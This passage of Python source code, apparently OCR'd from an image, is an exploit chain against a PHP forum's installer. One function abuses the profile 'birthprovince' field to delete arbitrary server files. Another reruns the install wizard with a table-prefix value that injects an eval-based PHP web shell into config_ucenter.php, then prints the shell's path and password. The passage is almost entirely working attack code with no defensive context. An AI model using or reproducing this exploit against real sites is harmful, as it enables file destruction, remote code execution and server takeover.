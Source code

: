 
    def tamper(formhash, file_to_delete):
        data = {
            'formhash': (None, formhash),
            'profilesubmit': (None, 'true'),
            'birthprovince': (None, file_to_delete)
        }
        r = sess.post(url, files=data)
        if 'parent.show_success' in r.text:
            print('tamperred successfully')
            return True


    def delete(formhash, file):
        if not tamper(formhash, file):
            return False

        image = b'iVBORw0KGgoAAAANSUhEUgAAAAoAAAAKCAIAAAACUFjqAAAADUlEQVR4nGNgGAWkAwABNgABVtF/yAAAAABJRU5ErkJggg=='
        data = {
            'formhash': formhash,
            'profilesubmit': 'true'
        }
        files = {
            'birthprovince': ('image.png', base64.b64decode(image), 'image/png')
        }
        r = sess.post(url, data=data, files=files)
        if 'parent.show_success' in r.text:
            print('delete {} successfully'.format(file))
            return True


    def getshell():
        install_url = target + '/install/index.php'
        r = sess.get(install_url)
        if '安装向导' not in r.text:
            print('install directory not exists')
            return False

        table_prefix = "x');@eval($_POST[{}]);('".format(shell_password)
        data = {
            'step': 3,
            'install_ucenter': 'yes',
            'dbinfo[dbhost]': db_host,
            'dbinfo[dbname]': db_name,
            'dbinfo[dbuser]': db_user,
            'dbinfo[dbpw]': db_pw,
            'dbinfo[tablepre]': table_prefix,
            'dbinfo[adminemail]': 'admin@admin.com',
            'admininfo[username]': 'admin',
            'admininfo[password]': 'admin',
            'admininfo[password2]': 'admin',
            'admininfo[email]': 'admin@admin.com',
        }
        r = sess.post(install_url, data=data)
        if '建立数据表 CREATE TABLE' not in r.text:
            print('write shell failed')
            return False
        print('shell: {}/config/config_ucenter.php'.format(target))
        print('password: {}'.format(shell_password))
